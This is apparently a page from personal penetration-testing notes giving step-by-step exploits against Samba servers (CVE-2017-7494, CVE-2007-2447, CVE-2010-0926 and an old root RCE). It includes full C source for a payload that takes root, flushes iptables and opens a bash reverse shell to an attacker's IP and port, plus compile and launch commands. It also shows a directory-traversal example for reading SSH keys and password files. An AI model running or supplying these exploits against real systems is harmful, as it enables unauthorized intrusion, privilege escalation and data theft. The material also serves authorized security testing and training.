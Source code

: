 ```yaml
---
title: Samba
parent: Common Exploits
layout: default
nav_order: 5
---
```


## Samba Cry

Must have a writable share on samba < 4.5.9

1. Use the CVE-2017-7494 tool (https://github.com/joxeankoret/CVE-2017-7494) Python 2
2. Use the reverseshell.c below (change IP and PORT)
3. Compile it using `gcc -o reverseshell.so -shared reverseshell.c -fPIC`
4. Set up listener. Run the exploit using `python cve_2017_7494.py -t IP -u user -P pass --custom reverseshell.so`

#### reverseshell.c
```
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("iptables -F");
system("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
}
```

## Samba Root RCE

Need to be < samba 2.2.8

1. (optional) To find out samba version, use `wireshark` and monitor the tunnel. Run `enum4linux -U IP` and go back to wireshark, right click on `session setup andx request, user: anonymous` and follow TCP stream. Should be able to see Samba version.
2. Use exploit 10 (`searchsploit -m 10`). `gcc 10.c -o sambal`, then `run ./sambal -b 0 IP`

## Samba usermap script

1. `python CVE-2007-2447.py targetIP targetport ownIP ownPort` (usually target port will be 139)

## Samba symlink

Any samba version before 3.3.11, 3.4.x-3.4.6, 3.5.x-3.5.0rc3. Must have one writable share.

1. Using the executable (try not to compile yourself, I failed) CVE-2010-0926 with the usage below: `./CVE-2010-0926 hostname sharename randomnewfoldername pathtoread` (Eg: `./CVE-2010-0926 10.11.1.136 'Bob Share' rootdir ../../../../../../../../../../` will create a rootdir folder in the 'Bob Share' drive that allows you to read ../../../../.....)
2. Can search for interesting things like backup of ssh key, passwd file, crontab etc.